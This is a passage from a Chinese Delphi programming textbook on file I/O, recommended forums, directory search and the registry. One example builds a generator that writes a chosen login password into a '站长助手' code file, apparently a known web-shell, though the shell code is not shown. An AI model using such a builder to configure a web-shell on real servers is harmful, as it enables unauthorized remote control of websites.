Hello 过程也是一样，我们可以通过改变这个过程的代码来修改程序的输出，Button2Click 方法会自动改变显示结果。下面是改变后的代码：

```pascal
procedure Hello;
begin
  MessageDlg('Hello world!', mtInformation, [mbOK]);
end;
```

提示：当调用一个现有的 Delphi 函数、过程或任何 VCL 方法时，我们应该记住参数的个数及其数据类型。不过，只要键入函数或过程名及左括号，Delphi 编辑器中就会出现即时提示条，列出函数或过程的参数表供参考。这一特性被称为代码参数（Code Parameters），是代码识别技术的一部分。

## 1.5 Delphi 酷站推荐

一些比较好的学习网站可以让你少走弯路，节约时间。所以，在本章的最后我再向大家推荐一些学习 Delphi 比较不错的站点，读者朋友们如果在学习过程中遇到了什么问题，就可以到相关的站点来查找资料。

首先是元老级别的 Delphi 盒子论坛，地址为 http://www.2ccc.com/。我们只要注册一个账户，就可以下载到大量的 Delphi 源代码，通过这些源代码的学习，相信各位一定能够快速提高自己的编程能力，如图 1.48。

同样，一个优秀的资源下载站点和 Delphi 文献资料下载站点就是 Delphi 园地，地址为 http://www.delphifans.com/，如图 1.49。在这里，我们不仅可以下载到许多优秀的 Delphi 程序源代码，而且还可以下载到一些前辈制作的 Delphi 电子书，相信这么丰富的资源一定能够让你快速入门和提高。





图 1.48

图 1.49

Delphi 蜜洞也是一个很出名的 Delphi 站点，地址为 http://www.51delphi.com/，如图 1.50。作为编程爱好者，通常在学习过程中会有很多学习上的疑惑，也因此非常希望有高手和前辈能够帮助自己，那么大富翁论坛 http://www.delphibbs.com/ 就是你的首选。在这里不仅有良好的讨论氛围，还有很多 Delphi 高手经常出没于论坛之中，如图 1.51。说到论坛和讨论，就不得不提到 CSDN 的 Delphi 论坛了，地址为 http://forum.csdn.net/BList/Delphi/UnClosedList，在这里则汇集了当前的 Delphi 开发者，几乎所有的前沿问题都可以在这里找到答案，如图 1.52。

台湾的计算机水平是非常不错的，所以我再推荐一个台湾的 Delphi 学习论坛，地址为 http://delphi.ktop.com.tw/，如图 1.53。读者朋友们可以感受一下台湾的 Delphi 编程爱好者的技术，甚至在编程方面和他们进行一下切磋。





图 1.50

图 1.51





图 1.52

图 1.53

同时，还有一些新兴的 Delphi 论坛，比如 Delphi 编程论坛，地址为 http://bbs.bc-cn.net/forum-9-1.html，如图 1.54。这里的资料更新得比较快，比较适合初学者。同样的 Delphi 论坛还有 http://www.programbbs.com/bbs/forum12-1.htm，资料也很全，如图 1.55。





图 1.54

图 1.55

最后要推荐给大家的是问专家论坛。这个网站是著名的网络名人李烨创建的，在这里罗列了很多 Delphi 的经典问题，如果大家有什么问题的话，也可以发送邮件过去进行提问，地址为 http://www.china-askpro.com/delphi.shtml，如图 1.56。



图 1.56

# 第二章 Delphi 基础知识

在本章中我们主要介绍 Delphi 对一些系统资源的操作方法，比如对文件进行读写操作、对注册表文件进行改写操作等，同时还会介绍 Delphi 下载文件的几种方法，因为在网络编程中对于文件的下载是非常基础的操作，最后会介绍 Delphi 对一些环境变量的操作。只有掌握好了以上这些操作方法，才能实现对系统资源的全面控制，这样编写程序才能做到更加快速。

## 2.1 文件操作

文件操作对于任何一种编程语言来说都是一项非常基础的操作，本节我们就来介绍如何使用 Delphi 实现对磁盘文件的读写和修改操作。

### 2.1.1 基础知识介绍

文件是同一类型元素的有序集合，是内存与外设间传输数据的渠道。一些外设诸如显示器、键盘、打印机等都可以看作是文件，但最常用的还是磁盘文件，这也是我们主要讨论的对象。

Delphi 继承了 Object Pascal 的文件管理功能，并有了很大的发展，其中最主要的是提供了用于文件管理的标准控件，同时也提供了更多的文件管理函数。利用 Delphi 的强大功能，开发一个属于自己的文件管理系统是一件非常容易的事。在开始学习 Delphi 的文件编程前，我先介绍一些 Delphi 中有关文件操作的函数。

- 1. **文件的打开与关闭**
  - `AssignFile`：把一个外部文件名和一个文件变量相关联
  - `Reset`：打开一个存在的文件
  - `Rewrite`：创建并打开一个新文件（或覆盖原有文件）
  - `Append`：以添加方式打开一个文件（只适用于文本文件）
  - `CloseFile`：关闭一个打开的文件
  - `FileOpen`：打开一个特定的文件并返回文件句柄
  - `FileCreate`：创建一个给定文件名的文件并返回文件句柄
  - `FileClose`：关闭一个特定句柄的文件

后边三个函数主要供系统内部使用，在文件复制的编程中也常常会用到。它们操作的对象是文件句柄而不是文件变量。

- 2. **文件定位**
  - `Seek`：把文件当前位置移到指定部分
  - `FilePos`：返回文件的当前位置
  - `Eoln`：返回行结束标志
  - `EOF`：返回文件结束标志
  - `FileSeek`：改变当前文件指针的位置

Seek 与 FileSeek 的区别在于：

- （1）Seek 仅用于记录文件；
- （2）FileSeek 的参数是文件句柄、偏移量、起始位置。其中起始位置有文件首、当前位置、文件尾三种选择。而 Seek 的参数是文件变量、偏移量，偏移量是从文件首开始定位的。
- （3）FileSeek 的偏移量以字节数来计算，而 Seek 是根据记录号进行移动。

大家要记住，Seek 和 FilePos 仅用于记录文件，另外就是任何文件都可以看作是基于字节的记录文件。

下面一段程序演示了 Seek 的用法，程序编写完毕后按 F9 运行程序，就会看到一个对话框提示当前的文件指针位置为 10，代码如下：

```delphi
procedure TForm1.Button1Click(Sender: TObject);
var
  f: file;
begin
  AssignFile(f, 'c:\test.txt');
  Reset(f);        // 打开文件进行读操作
  Seek(f, 10);     // 设置文件指针
  ShowMessage('当前文件指针位置为：' + IntToStr(FilePos(f)));
  CloseFile(f);
end;
```

- 3. **文件删除与截断**
  - `Erase`：删除一个存在的文件
  - `DeleteFile`：删除一个文件
  - `Truncate`：从文件当前位置将文件截断

Erase 与 DeleteFile 的区别是：Erase 以文件变量为参数，当文件不能删除时引起一个异常；DeleteFile 以文件名为参数，当文件不存在或不能删除时返回 False，而不会引起一个异常。

- 4. **文件名操作**
  - `Rename`：文件更名，以文件变量为操作对象
  - `RenameFile`：文件更名，参数为文件的原名和新名
  - `ChangeFileExt`：改变文件扩展名
  - `ExpandFileName`：返回文件全路径名
  - `ExtractFileExt`：返回文件扩展名
  - `ExtractFileName`：从全路径名中返回文件名
  - `ExtractFilePath`：返回特定文件的路径

- 5. **文件属性**
  - `FileGetAttr`：返回文件属性
  - `FileSetAttr`：设置文件属性

处理文件属性的一些常量的使用方法如下：

```delphi
attr := FileGetAttr(FileListBox1.FileName);
if (attr and faReadOnly) = faReadOnly then ... // 只读
if (attr and faSysFile) = faSysFile then ...   // 系统
if (attr and faArchive) = faArchive then ...   // 存档
if (attr and faHidden) = faHidden then ...     // 隐藏
```

- 6. **文件状态**
  - `FileSize`：返回文件对象大小
  - `IOResult`：返回上一次 I/O 操作的状态
  - `FileExists`：检测文件是否存在

#### 7、文件日期

- DateTimeToFileDate：把 Delphi 日期格式转换为 DOS 日期格式
- FileDateToDateTime：把 DOS 日期格式转换为 Delphi 日期格式
- FileGetDate：返回文件的 DOS 日期时间戳
- FileSetDate：设置文件的 DOS 日期时间戳

#### 8、文件读写

- Read、Readln：从文本或记录文件中读取变量
- Write：将指定变量写入文本或记录文件
- Writeln：将指定变量写入文本文件并写入一个行结束标志
- FileRead：从一个指定文件中读取变量
- FileWrite：向指定文件写入数据

FileRead 和 FileWrite 都是以文件句柄为操作对象，主要供系统内部使用。

#### 9、目录操作

- MkDir：创建当前目录的子目录
- ChDir：改变当前目录
- GetDir：返回特定磁盘的当前目录
- RmDir：删除一个空子目录

#### 10、磁盘操作

- DiskFree：返回磁盘自由空间
- DiskSize：返回特定磁盘的大小

#### 11、文件查找

- FileSearch：查找目录中是否存在某一特定文件
- FindFirst：在目录中查找与给定文件名（可以包含匹配符）及属性集相匹配的第一个文件
- FindNext：返回符合条件的下一个文件
- FindClose：中止一个 FindFirst/FindNext 序列

有关文件管理标准过程／函数的更详细资料，请查阅 Delphi 相关的帮助主题，在 Delphi 的联机帮助 Help 系统中已经把有关文件的过程／函数分为了两个主题：I/O Routine 和 File Management Routine。前者大部分以文件变量为操作对象，而后者大部分以文件名或文件句柄为操作对象。另外，Windows 也提供了许多有关文件管理的 API 函数，虽然一般情况下，利用 Delphi 提供的函数已足够解决问题，但有时候仍然需要使用 Windows API。有关 Windows API 函数的情况，这里不再进行介绍。

上面介绍了 Delphi 中关于文件操作的各种函数，我们再通过一个实例来把上面的所有知识串联起来。首先，在程序界面添加一个 OpenDialog 组件，用于打开文件对话框，然后添加一个 Memo 组件，用于显示文本，最后再添加一个 Button 组件，程序界面如图 2.1 所示。

接下来，我们修改 Memo1 组件的 Align 属性为 alBottom，这样 Memo 组件就可以覆盖整个程序底部了，如图 2.2。另外，还要修改 Memo 组件的 ScrollBars 属性为 ssBoth，以让程序有滚动条，如图 2.3。具体的程序代码如下：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    OpenDialog1: TOpenDialog;
    Button1: TButton;
    Memo1: TMemo;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  f1: TextFile;    // 定义文件变量
  a: string;
begin
  if OpenDialog1.Execute then // 如果对话框成功地被打开
  begin
    Memo1.Clear;   // 清空文本框
    AssignFile(f1, OpenDialog1.FileName); // 把文件名绑定到文件变量上
    Reset(f1); // 读取文件
    while not Eof(f1) do // 如果没有读到文件末尾，就循环读取
    begin
      Application.ProcessMessages;   // 防止程序假死
      ReadLn(f1, a);
      Memo1.Lines.Add(a);
    end;
    CloseFile(f1);   // 关闭文件
  end;
end;

end.
```

我们使用 AssignFile 函数把文件绑定到文件变量上，然后使用 Reset 函数打开读取文件数据，再使用 ReadLn 函数读取一行文件数据，最后再使用 CloseFile 函数关闭文件。

编写完毕程序代码后，我们来运行程序看看，按 F9 运行程序，点击打开按钮，弹出了一个对话框要求选择文件，如图 2.4。

选择一个文本文件后，程序就会把读取到的数据显示到 Memo 组件中了，一个简单的“记事本”程序就这样编写完毕了，如图 2.5。

### 2.1.2 站长助手生成器（文件操作）

本节我们介绍如何使用文件的读写操作来编写一个站长助手生成器，以让大家能够做到学以致用，以用促学！程序使用到了一个 OpenDialog 组件，使用到了两个 Memo 组件用来保存站长助手的代码文件，同时还使用到了一个编辑框组件用来设置站长助手的密码，程序界面如图 2.6 所示。

我们要修改 Memo 组件的 Lines 属性，点击 Lines 属性右侧的“…”按钮，就可以修改 Lines 属性了，如图 2.7。

打开站长助手的代码文件，以站长助手的登录密码作为界限，把前半段代码复制出来，如图 2.8，我们把复制出来的这前半段代码粘贴到 Memo1 文本框中，如图 2.9，然后使用同样的方法把站长助手的后半段代码也添加到 Memo2 中，如图 2.10。

最后，添加如下的代码：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, Buttons;

type
  TForm1 = class(TForm)
    Label1: TLabel;
    Edit1: TEdit;
    Label2: TLabel;
    Memo1: TMemo;
    Memo2: TMemo;
    SaveDialog1: TSaveDialog;
    Button1: TButton;
    procedure FormCreate(Sender: TObject);
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

uses Unit2;

{$R *.dfm}

procedure TForm1.FormCreate(Sender: TObject);
begin
  Memo1.Visible := False;    // 组件不可视
  Memo2.Visible := False;
end;

procedure TForm1.Button1Click(Sender: TObject);
var
  a: TextFile;
begin
  if SaveDialog1.Execute then    // 如果打开对话框成功
  begin
    AssignFile(a, SaveDialog1.FileName);    // 开始保存
    Rewrite(a);    // 写入操作
    Write(a, Trim(Memo1.Text) + Trim(Edit1.Text) + Trim(Memo2.Text));    // 写入三个文本框的内容
    CloseFile(a);    // 关闭文件
  end
  else
    ShowMessage('保存文件时候出错');
end;
```

该程序的实现原理为：把站长助手的所有代码分成了三份，登录密码之前的代码 + 登录密码 + 登录密码之后的代码，然后使用 Memo1 组件保存登录密码之前的代码，使用 Memo2 保存登录密码之后的代码，最后把密码输入框中的密码和两个 Memo 组件中的代码进行组合得到一个站长助手文件，然后再使用保存对话框保存这个新生成的文件。

按 F9 运行程序，点击生成站长助手按钮，程序就自动弹出了一个保存对话框，输入要保存的文件名称，就可以生成站长助手了，如图 2.11。新生成的站长助手，使用记事本打开后，其代码如图 2.12 所示；可以看到已经成功把密码改成了“123456”了。

### 2.1.3 搜索文件

这节我们介绍使用 Delphi 的函数和一些文件常量来编写一个磁盘文件和目录的搜索程序，首先在窗体上添加一个编辑框，用于填写想要搜索的目标目录，然后再添加一个按钮控件，最后再添加一个 ListBox 组件，用于显示搜索出来的目录和文件列表，程序界面如图 2.13 所示。

程序的具体代码如下：

```delphi
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    ListBox1: TListBox;
    Button1: TButton;
    Edit1: TEdit;
    Label1: TLabel;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
var
  SearchRec: TSearchRec;      // 搜索对象
  ext, AppPath: string;
begin
  ListBox1.Clear;             // 清空列表框
  AppPath := Edit1.Text;      // 设置要搜索的目标目录
  ext := '*.*';               // 设置要搜索的文件后缀名

  FindFirst(AppPath + ext, faAnyFile, SearchRec);   //--faDirectory
  ListBox1.Items.Add(SearchRec.Name);               // 添加文件名称
  while FindNext(SearchRec) = 0 do
    ListBox1.Items.Add(SearchRec.Name);             // 添加文件名
end;

end.
```

程序首先使用 FindFirst 函数找到第一个文件或者目录，如果返回 0，也就是表示没有出现错误，此时就会用 FindNext 函数继续查询下一个文件或者目录，最后使用列表框显示所有搜索出来的目录或者文件。按 F9 运行程序，在目录输入框中输入想要搜索的目标目录，然后点击搜索按钮，程序马上搜索出了所有的目录和文件并且显示在了列表框中，程序的运行结果如图 2.14 所示。

## 2.2 注册表操作

Windows 注册表跟踪记录了操作系统和各种在系统上安装的应用程序的有关信息，注册表是一个分层数据库，该数据库包含了以特定格式表示的配置信息，并且可以直接通过注册表编辑器来进行编辑修改，也可以通过应用程序进行修改。在早期的 Windows 系统中，INI 文件可以粗略地完成这一功能，尽管注册表与 INI 文件有一些相似之处，但不管怎样，由于组织结构的原因，注册表比传统的 INI 文件要复杂得多。

注册表分成若干个主要部分，各个部分（或者说关键字）包含了不同种类的系统信息，比如当我们创建一个应用程序时，可以在 HKEY_LOCAL_MACHINE 这个部分的 SOFTWARE 中注册你的配置信息，应用程序可以把配置信息以多种数据类型（包括字符串、货币、日期、浮点数和布尔值）的形式保存在关键字中。下面我们就通过实例来介绍在应用程序中使用 Delphi 定义一个 TRegistry 类，通过使用这个类中封装的很多有关对注册表操作的方法和属性来完成对注册表的操作。

